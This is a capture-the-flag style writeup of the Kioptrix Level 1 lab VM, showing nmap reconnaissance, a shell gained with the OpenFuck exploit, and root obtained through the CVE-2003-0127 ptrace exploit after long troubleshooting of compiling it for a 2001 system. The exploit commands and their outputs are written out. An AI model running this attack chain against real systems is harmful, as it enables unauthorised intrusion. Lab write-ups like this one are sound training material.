





# Kioptrix Level 1 Writeup

## Introduction
# VulnHub

Kioptrix Level 1 is supposed to be an easy box.

I would like to formally disagree.

The actual exploitation was not particularly complicated, but getting
the right exploit to compile and run on a machine from **2001** while
using a modern Kali system turned into its own boss fight. This writeup
documents the whole process, including the parts that worked, the parts
that absolutely did not, and the several occasions where the solution
was basically "use the ancient computer's own compiler."

------------------------------------------------------------------------

## 1. Reconnaissance

I started by identifying the machines on the VMware network using ARP
scanning.



The target was identified as:

``` text
192.168.57.130
```

I then performed a full TCP port scan with service detection:

``` bash
nmap -sV -p- 192.168.57.130
```

The scan revealed several interesting services:

``` text
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn  Samba
443/tcp   open  https
1024/tcp  open  status
```



The web server and Samba immediately stood out as potential attack
surfaces. Samba in particular looked interesting because this is an
extremely old Linux system.

------------------------------------------------------------------------

## 2. Initial Access

For initial access, I used **OpenFuck**, targeting the vulnerable
service on the Kioptrix machine.

The command used was:

``` bash
./OpenFuck 0x6b 192.168.57.130 -c 40
```

OpenFuck successfully established a connection and spawned a shell:

``` text
Connection... 40 of 40
Establishing connection
Ready to send shellcode
Spawning shell...
bash-2.05$
```



The first thing I checked was my current user:

``` bash
whoami
```

The result:

``` text
apache
```

So I had successfully obtained initial access, but I was sitting at a
low-privileged `apache` shell.

That meant the real problem was now privilege escalation.

------------------------------------------------------------------------

## 3. Identifying the Kernel

Since this was clearly an extremely old system, kernel enumeration was
one of the first things I checked.

``` bash
uname -a
```

The target returned:

``` text
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
```



This was a very important discovery.

The machine was running:

``` text
Linux 2.4.7-10
Architecture: i686
```

That dramatically narrowed down the privilege escalation possibilities.
Instead of looking for modern Linux privilege escalation techniques, I
needed vulnerabilities that actually existed in the **2.4.x kernel
era**.

------------------------------------------------------------------------

## 4. The Privilege Escalation Rabbit Hole

This is where the "easy" box started becoming considerably less easy.

I investigated several old Linux local privilege escalation exploits,
including:

-   EDB #778
-   EDB #3 / CVE-2003-0127
-   EDB #20979
-   EDB #21124
-   EDB #160
-   EDB #20721

Several of these turned into compilation or compatibility nightmares.

### EDB #778

This relied on old Linux kernel headers that modern Kali simply does not
provide anymore.

Trying to compile it resulted in missing legacy headers.

Not exactly surprising when your target kernel predates a lot of the
software currently running on the attacking machine.

### EDB #20979

This one was even more annoying.

The downloaded source contained exploit documentation and placeholder
material mixed into the file, including things such as:

``` c
#define WHERETOREAD [the address malloced for password by vuln-prog]
```

There were also literal pieces of the exploit description inside the
supposed C source.

So instead of being a clean compile-and-run exploit, it required
reconstructing the exploit.

I decided it wasn't worth the headache.

### EDB #21124

This one looked promising because it targeted the old Linux `ptrace()` /
`setuid` behaviour.

Unfortunately, the Exploit-DB entry pointed to a binary archive that, in
practice, did not give me a convenient standalone exploit source to work
with.

So that went into the "not today" pile.

------------------------------------------------------------------------

## 5. EDB #3: CVE-2003-0127

Eventually I focused on **EDB #3**, a Linux `ptrace` / kernel module
loader privilege escalation exploit associated with **CVE-2003-0127**.

This was a much better match for the target's old 2.4.x kernel.

I downloaded the source onto Kali and initially tried compiling it
there.

The first problem was:

``` text
fatal error: linux/user.h: No such file or directory
```

Modern Linux headers don't provide that old header in the same location.

I changed:

``` c
#include <linux/user.h>
```

to:

``` c
#include <sys/user.h>
```

Then another problem appeared.

The exploit used:

``` c
regs.eip
```

which is correct for 32-bit x86, but I was initially compiling on a
64-bit Kali environment. Modern x86-64 uses `rip` instead.

I **did not change `eip` to `rip`**, because the target itself was an
i686 machine.

Instead, I tried compiling the exploit as a 32-bit binary:

``` bash
gcc -m32 3.c -o 3
```

And immediately got:

``` text
fatal error: bits/wordsize.h: No such file or directory
```

So I had another problem.

------------------------------------------------------------------------

## 6. The Modern Kali vs. 2001 Linux Problem

I installed the required 32-bit development environment:

``` bash
sudo apt -o Acquire::ForceIPv4=true update
sudo apt -o Acquire::ForceIPv4=true install gcc-multilib libc6-dev-i386
```

Eventually, the exploit compiled successfully on Kali.

Checking it with:

``` bash
file 3
```

gave:

``` text
ELF 32-bit LSB pie executable, Intel i386
```



Success.

Except...

Not really.

When I transferred that binary to Kioptrix and ran it, the target
complained:

``` text
/lib/i686/libc.so.6: version `GLIBC_2.33' not found
/lib/i686/libc.so.6: version `GLIBC_2.34' not found
```

Of course it did.

I had compiled the exploit on a modern Linux distribution and produced a
binary expecting modern glibc functionality. Kioptrix was running a
userspace from the early 2000s.

I tried a statically linked build:

``` bash
gcc -m32 -static 3.c -o 3-static
```

That got around the glibc version problem, but then the ancient target
produced:

``` text
Fatal glibc error: Cannot allocate TLS block
```

At this point the solution became painfully obvious.

------------------------------------------------------------------------

## 7. Compile It Where It's Actually Going to Run

I checked whether Kioptrix itself had GCC.

``` bash
gcc --version
```

The answer:

``` text
gcc (GCC) 2.96
```

And:

``` bash
which gcc
```

returned:

``` text
/usr/bin/gcc
```

So instead of trying to force a 2001 Linux system to run something
compiled against a 2026 userspace, I transferred the source to Kioptrix
and compiled it **directly on the target**.

``` bash
gcc 3.c -o 3
```

And...

It compiled.

No multilib problems.

No missing modern headers.

No GLIBC 2.34.

No TLS error.

Just GCC 2.96 doing exactly what it was supposed to do.

I checked the resulting binary:

``` bash
file 3
```

and got:

``` text
ELF 32-bit LSB executable, Intel 80386
```

This was the turning point.

------------------------------------------------------------------------

## 8. Privilege Escalation

I finally ran the exploit:

``` bash
./3
```

The exploit produced:

``` text
Attached to 1453
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
```


At this point the exploit had successfully reached its shellcode
injection stage.

I checked the resulting shell:

``` bash
whoami
```

and got:

``` text
root
```

**Root obtained.**

------------------------------------------------------------------------

## 9. Final Result

The final attack chain was:

``` text
Network discovery
      ↓
Nmap enumeration
      ↓
OpenFuck
      ↓
apache shell
      ↓
Kernel enumeration
      ↓
Linux 2.4.7-10 i686
      ↓
CVE-2003-0127 / EDB #3
      ↓
Several failed compilation attempts
      ↓
Compile exploit natively with GCC 2.96
      ↓
ptrace exploitation
      ↓
SUID shell
      ↓
root
```

And honestly, the biggest lesson from this box wasn't even the exploit
itself.

It was **matching the exploit environment to the target**.

Trying to compile a 2001 Linux exploit on a modern 64-bit Kali machine
introduced problems that had nothing to do with the vulnerability. Once
the source was compiled natively on the Kioptrix machine using its own
GCC 2.96 and libraries, the exploit worked.

Kioptrix Level 1: **1**

My patience: **0**. 😂
